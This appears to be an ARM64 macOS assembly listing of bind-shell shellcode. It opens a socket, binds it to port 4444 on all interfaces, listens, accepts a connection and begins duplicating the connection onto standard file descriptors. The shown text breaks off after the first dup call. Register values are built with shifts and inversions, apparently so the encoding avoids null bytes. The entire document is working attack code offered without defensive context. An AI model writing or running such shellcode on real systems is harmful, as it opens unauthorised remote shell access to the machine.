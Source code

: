 ```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
    // s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
    mov  x16, #97
    lsr  x1, x16, #6
    lsl  x0, x1, #1
    mov  x2, xzr
    svc  #0x1337

    // save s
    mvn  x3, x0

call_bind:
    /*
     * bind(s, &sockaddr, 0x10)
     *
     * struct sockaddr_in {
     *     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
     *     sa_family_t     sin_family;  // AF_INET = 2
     *     in_port_t       sin_port;    // 4444 = 0x115C
     *     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
     *     char            sin_zero[8]; // Don't care
     * };
     */
    mov  x1, #0x0210
    movk x1, #0x5C11, lsl #16
    str  x1, [sp, #-8]
    mov  x2, #8
    sub  x1, sp, x2
    mov  x2, #16
    mov  x16, #104
    svc  #0x1337

call_listen:
    // listen(s, 2)
    mvn  x0, x3
    lsr  x1, x2, #3
    mov  x16, #106
    svc  #0x1337

call_accept:
    // c = accept(s, 0, 0)
    mvn  x0, x3
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #30
    svc  #0x1337

    mvn  x3, x0
    lsr  x2, x16, #4
    lsl  x2, x2, #2

call_dup:
    // dup(c, 2) -> dup(c, 1) -> dup(c, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
```